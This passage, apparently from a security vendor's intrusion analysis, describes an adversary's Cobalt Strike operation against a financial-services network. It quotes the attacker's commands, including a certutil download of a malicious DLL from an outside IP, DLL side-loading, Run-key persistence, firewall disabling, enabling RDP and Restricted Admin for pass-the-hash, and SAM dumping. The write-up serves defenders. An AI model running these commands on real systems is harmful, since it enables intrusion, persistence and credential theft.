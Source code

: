 The adversary moved to Cobalt Strike for C2 and further execution. This time, they used a legitimately signed version of Trend Micro’s Deep Security Monitor (`ds_monitor.exe`). This was used to load Cobalt Strike by side-loading a malicious DLL (`msvcp140.dll`). We observed the download of the DLL from a `certutil.exe` execution, and then we confirmed this behavior via call stack telemetry.

```
"C:\Windows\system32\cmd.exe" /c certutil -urlcache -split -f \ 
ht""""tp://206.237.3[.]150:443/1.txt \ 
C:\users\public\downloads\msvcp140.dll
```

The screenshot below shows that the actor placed the TrendMicro application inside a directory labeled McAfee in ProgramData. We can see the malicious DLL being loaded from the same directory by checking the call stack.

![Malicious DLL side-loading of msvcp140.dll](/assets/images/unmasking-financial-services-intrusion-ref0657/image2.png "Malicious DLL side-loading of msvcp140.dll")


Shortly after, Run Key persistence was added to execute (`ds_monitor.exe`) on system startup.

```
reg  add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v \ 
TrendMicro /t REG_SZ /d \ 
"C:\ProgramData\McAfee\TrendMicro\ds_monitor.exe" /f /reg:64
```

An analysis on `msvcp140.dll` reveals that the threat actor tampered with the DllEntryPoint of the legit Windows DLL by substituting it with modified code sourced from a public [repository](https://github.com/ShadowMccc/MemoryEvasion) - this is a custom Cobalt Strike memory evasion loader.

![Decompiled Sleep Obfuscation loading Cobalt Strike](/assets/images/unmasking-financial-services-intrusion-ref0657/image6.png "Decompiled Sleep Obfuscation loading Cobalt Strike")


While the original code retrieved the Cobalt Strike beacon from memory, the altered version loads a beacon in base64 format from a file named `config.ini` that connects to `msedge[.]one`.

### Dumping credentials

One of the main methods observed for gathering credentials was dumping the Security Account Manager (SAM) registry hive on different servers.

![Events showing SAM registry dump](/assets/images/unmasking-financial-services-intrusion-ref0657/image11.png "Events showing SAM registry dump")


### Network/Registry/Logging Modifications 

The threat actor modified several different configurations and settings to help further increase their access to the environment. One of our first observations of this behavior was [enabling RDP](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/microsoft-windows-terminalservices-localsessionmanager-fdenytsconnections) (set value to 0) through the registry at the following path (`HKLM\SYSTEM\ControlSet001\Control\Terminal Server\fDenyTSConnections)`. Then, they disabled the Windows Firewall rules using the command:` NetSh Advfirewall set allprofiles state off`.

Afterward, they enabled [Restricted Admin](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn408190(v=ws.11)#restricted-admin-mode-for-remote-desktop-connection) mode through a registry modification, this allowed the adversary to conduct pass-the-hash style attacks against Remote Desktop Protocol (RDP). 
